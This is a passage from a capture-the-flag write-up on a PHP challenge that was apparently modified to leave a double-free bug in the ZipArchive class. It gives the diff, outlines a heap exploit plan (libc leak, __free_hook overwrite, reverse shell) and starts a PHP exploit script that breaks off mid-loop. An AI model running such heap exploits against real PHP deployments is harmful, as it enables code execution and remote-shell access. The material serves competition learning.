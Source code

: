 ```c=


```

### MoP
First, we find out the commit version `37a8408e8` according to hint, and get diff info as below.

```
$ diff -r php-src/ext/zip/php_zip.c no_realworld_php/ext/zip/php_zip.c
1383d1382
<         ze_obj->filename = NULL;

```
Obviously, There is a double free vulnerability we can exploit at ZipArchive class. 
In zend allocator, `_emalloc` does not check any metadata from the freed chunk,
so we can simply get `arbitray read/write`. 

Leak the libc, overwrite `__free_hook`, and get reverse shell!!


```php=
<?php

function read_ptr(&$mystring,$index=0,$little_endian=1){

return hexdec(dechex(ord($mystring[$index+7])) .dechex(ord($mystring[$index+6])) . dechex(ord($mystring[$index+5])).dechex(ord($mystring[$index+4])).dechex(ord($mystring[$index+3])).dechex(ord($mystring[$index+2])). dechex(ord($mystring[$index+1])).dechex(ord($mystring[$index+0])));

}
    
function write_ptr(&$mystring,$value,$index=0,$little_endian=1){
//$value=dechex($value);
$mystring[$index]=chr($value&0xFF);
$mystring[$index+1]=chr(($value>>8)&0xFF);
$mystring[$index+2]=chr(($value>>16)&0xFF);
$mystring[$index+3]=chr(($value>>24)&0xFF);
$mystring[$index+4]=chr(($value>>32)&0xFF);
$mystring[$index+5]=chr(($value>>40)&0xFF);
$mystring[$index+6]=chr(($value>>48)&0xFF);
$mystring[$index+7]=chr(($value>>56)&0xFF);

}
    function int_to_string($value,$index=0){
        $mystring = "aaaaaaaa";
        $mystring[$index]=chr($value&0xFF);
        $mystring[$index+1]=chr(($value>>8)&0xFF);
        $mystring[$index+2]=chr(($value>>16)&0xFF);
        $mystring[$index+3]=chr(($value>>24)&0xFF);
        $mystring[$index+4]=chr(($value>>32)&0xFF);
        $mystring[$index+5]=chr(($value>>40)&0xFF);
        $mystring[$index+6]=chr(($value>>48)&0xFF);
        $mystring[$index+7]=chr(($value>>56)&0xFF);
        return $mystring;
    }

class SplFixedArray2 extends SplFixedArray{
public function offsetGet($offset) {}
public function Count() {echo "!!!!######!#!#!#COUNT##!#!#!#!#";}
}

$z=array();

for ($x=0;$x<100;$x++){
	$z[$x]=new SplFixedArray(5);
```